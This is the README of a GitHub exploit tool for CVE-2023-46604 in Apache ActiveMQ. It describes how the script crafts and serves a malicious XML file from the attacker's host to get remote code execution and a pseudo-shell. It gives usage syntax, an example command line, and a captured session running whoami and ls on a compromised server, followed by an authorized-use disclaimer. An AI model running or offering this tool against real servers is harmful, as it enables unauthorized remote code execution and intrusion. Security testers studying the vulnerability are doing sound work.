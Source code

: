 # CVE-2023-46604 RCE Pseudoshell

This script leverages CVE-2023046604 (Apache ActiveMQ) to generate a pseudo shell. The vulnerability allows for remote code execution due to unsafe deserialization within the OpenWire protocol.


## Description

CVE-2023-46604 is a deserialization vulnerability that exists in Apache ActiveMQ's OpenWire protocol. This flaw can be exploited by an attacker to execute arbitrary code on the server where ActiveMQ is running. An attacker can craft a malicious xml file, commands from which will be executed by the remote server. 

This explot automates and abstracts the process of xml document creation, provides a basic server to deliver the file and receives information back from the target server via POST. This allows continued exploitation without the need to invoke a reverse shell, or deploy a binary. 


## Prerequisites

Before running the exploit script, ensure that you have:

- Python 3.x installed on your system.
- Network access to the vulnerable ActiveMQ server.
- Permssion to test against the vulnerable server. 


## Usage

The script requires:
- ActiveMQ Server IP or Hostname
- Serve IP (An IP on your system, reachable by the target.)

Optional:
- ActiveMQ Server Port - defaults to 61616
- Serve port (The port to start the local server on) - defaults to 8080

```
usage: exploit.py [-h] -i IP [-p PORT] -si SRVIP [-sp SRVPORT]

optional arguments:
  -h, --help            show this help message and exit
  -i IP, --ip IP        ActiveMQ Server IP or Hostname
  -p PORT, --port PORT  ActiveMQ Server Port, defaults to 61616
  -si SRVIP, --srvip SRVIP
                        Serve IP
  -sp SRVPORT, --srvport SRVPORT
                        Serve port, defaults to 8080

```

## Example

```
$python3 exploit.py -i 10.129.230.87 -p 61616  -si 10.10.14.59 -sp 8080
#################################################################################
#  CVE-2023-46604 - Apache ActiveMQ - Remote Code Execution - Pseudo Shell      #
#  Exploit by Ducksec, Original POC by X1r0z, Python POC by evkl1d              #
#################################################################################

[*] Target: 10.129.230.87:61616
[*] Serving XML at: http://10.10.14.59:8080/poc.xml
[!] This is a semi-interactive pseudo-shell, you cannot cd, but you can ls-lah / for example.
[*] Type 'exit' to quit

#################################################################################
# Not yet connected, send a command to test connection to host.                 #
# Prompt will change to Apache ActiveMQ$ once at least one response is received #
# Please note this is a one-off connection check, re-run the script if you      #
# want to re-check the connection.                                              #
#################################################################################

[Target not responding!]$ whoami
activemq

Apache ActiveMQ$ ls -lah
total 164K
drwxr-xr-x  5 activemq activemq 4.0K Nov  7 12:50 .
drwxr-xr-x 11 activemq activemq 4.0K Nov  6 01:18 ..
-rwxr-xr-x  1 activemq activemq  21K Apr 20  2021 activemq
-rwxr-xr-x  1 activemq activemq 6.1K Apr 20  2021 activemq-diag
-rw-r--r--  1 activemq activemq  17K Apr 20  2021 activemq.jar
-rw-r--r--  1 activemq activemq 5.5K Apr 20  2021 env
drwxr-xr-x  2 activemq activemq 4.0K Nov  5 00:13 linux-x86-32
drwxr-xr-x  2 activemq activemq 4.0K Nov  5 00:13 linux-x86-64
drwxr-xr-x  2 activemq activemq 4.0K Nov  5 00:13 macosx
-rw-r--r--  1 activemq activemq  82K Apr 20  2021 wrapper.jar

Apache ActiveMQ$ 
```
[CVE-2023-46604-RCE.webm](https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell/assets/129839654/38f280fa-2252-4161-acb3-9b92d3635eac)


## Credits
This exploit builds on the oiringal POC in Go by [X1r0z](https://github.com/X1r0z/ActiveMQ-RCE) and Python POC by [evkl1d](https://github.com/evkl1d/CVE-2023-46604).

## Disclaimer

This code is provided for educational and ethical security testing purposes only. It should be used responsibly and only in environments where explicit authorization has been granted. Unauthorized or malicious use is strictly prohibited. By using this code, you agree to adhere to all applicable laws, regulations, and ethical standards applicable in your jurisdiction. The creators and contributors disclaim any liability for any damages or consequences arising from the misuse or unauthorized use of this code.

